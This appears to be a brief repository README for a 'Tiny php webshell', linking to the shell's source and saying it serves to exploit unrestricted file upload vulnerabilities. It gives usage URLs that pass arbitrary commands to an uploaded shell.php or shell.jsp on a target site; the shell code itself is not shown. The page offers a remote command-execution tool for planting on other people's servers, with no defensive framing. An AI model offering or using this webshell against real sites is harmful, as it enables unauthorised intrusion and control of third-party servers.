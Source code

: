 # [Tiny php webshell](https://github.com/komodoooo/some-things/blob/main/webshell/shell.php)

you can use it to exploit an unrestricted file upload vulnerability

Usage:

1) _`https://site.com/uploads/shell.php?command=<command to execute>`_
2) _`https://site.com/uploads/shell.jsp?command=<command to execute>`_
